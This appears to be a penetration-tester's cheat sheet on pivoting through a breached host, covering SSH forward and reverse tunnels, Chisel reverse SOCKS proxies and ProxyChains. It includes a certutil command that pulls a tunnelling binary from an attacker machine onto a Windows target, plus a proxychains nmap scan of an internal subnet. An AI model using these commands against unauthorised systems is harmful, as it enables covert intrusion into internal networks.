






# 1. SSH Tunnels

## 1.1. Useful options to use with SSH tunnels

|Options|Description|
|---|---|
|`bind_address`|`0.0.0.0` means bind to all interfaces; defaults to `lo` loopback interface (`127.0.0.1`) if not specified|
|`-f`|Requests ssh to go to background just before command execution|
|`-N`|Do not execute a remote command. This is useful for just forwarding ports (protocol version 2 only).|
|`-o UserKnownHostsFile=/dev/null`|Pipe the host key to `/dev/null` i.e. do not record host key|
|`-o StrictHostKeyChecking=no`|Automatically add host key to host file (which is piped to `/dev/null` in above option|
|`-i /tmp/id_ecdsa`|Use identity file at `/tmp/id_ecdsa`|

## 1.2. Forward tunnels

**Forward**: direction of SSH connection is **same** as direction of access

### 1.2.1. Forward static tunnel

#### Syntax

```console
ssh -L [bind_address:]port:host:hostport [user@]hostname
```

#### Example



```console
ssh -L 0.0.0.0:13306:10.0.2.91:3306 -L 0.0.0.0:13389:10.0.2.91:3389 user@10.0.1.81
```

### 1.2.2. Forward dynamic tunnel (a.k.a. forward SOCKS proxy)

#### Syntax

```console
ssh -D [bind_address:]port [user@]hostname
```

#### Example



```console
ssh -D 0.0.0.0:1080 user@10.0.1.81
```

## 1.3. Reverse Tunnels

**Reverse**: direction of SSH connection is **reverse** of direction of access

### ☝️ For remote port forwarding:

- By default, the listening socket on the server can only bind to the `lo` loopback interface (`127.0.0.1`)
- Set `GatewayPorts yes` in the server's `sshd_config` to enable binding to other interfaces

```console
sed -i 's/#GatewayPorts no/GatewayPorts yes/' /etc/ssh/sshd_config
```

### 1.3.1. Reverse static tunnel

#### Syntax

```console
ssh -R [bind_address:]port:host:hostport [user@]hostname
```

#### Example



```console
ssh -R 0.0.0.0:13306:10.0.2.91:3306 -R 0.0.0.0:13389:10.0.2.91:3389 user@192.168.2.61
```

### 1.3.2. Reverse dynamic tunnel (a.k.a. reverse SOCKS proxy)

#### Syntax

```console
ssh -R [bind_addr:]port [user@]hostname
```

#### Example



```console
Example: ssh -R 0.0.0.0:1080 user@192.168.2.61
```

# 2. Chisel tunnels

[Chisel](https://github.com/jpillora/chisel) is useful for Windows targets that does not have SSH

## 2.1. Preparing chisel binaries

Prepare server on Kali:

```console
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel
chmod +x chisel
```

Prepare client binaries for Windows target to download

```console
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
gzip -d chisel_1.7.7_windows_amd64.gz
mv chisel_1.7.7_windows_amd64 /var/www/html/chisel.exe
```

Download client binaries on Windows target

```console
certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
```

## 2.2. Chisel server configuration

#### Syntax

```console
chisel server --reverse --port <port>
```

#### Example

```console
chisel server --reverse --port 8080
```

## 2.3. Chisel Client configuration

### 2.3.1. Reverse port forwarding

#### Syntax

```console
chisel client <server> [R:[server-port]:[target-address]:[target-port]]
```

#### Example



```console
chisel client 192.168.2.61:8080 R:13306:10.0.2.91:3306 R:13389:10.0.2.91:3389
```

## 2.3.2. Reverse SOCKS proxy

#### Syntax

```console
chisel client <server> R:socks
```

#### Example



```console
chisel client 192.168.2.61:8080 R:socks
```

# 3. ProxyChains

- Consider the reverse dynamic tunnel:
  - The accessing client `192.168.1.51` does not have a route to the `10.0.2.0/24` network
  - The initial breach to the host `10.0.1.81` managed to establish a reverse dynamic tunnel and now have a SOCKS proxy on `192.168.2.61:1080`
- ProxyChains can be used to chain any commands on the accessing client to use the SOCK proxy
- Edit the ProxyChains configuration file at `/etc/proxychains4.conf`

```console
vi /etc/proxychains4.conf
```

- The default ProxyList configuration sets to "tor"

```console
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

- Replace the proxy configuration to the SOCKS proxy created in 2.2.

```console
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5  192.168.2.61 1080
```

- Prepend commands targeted for `10.0.2.0/24` with `proxychains`

```console
proxychains nmap -p- -A 10.0.2.0/24
```
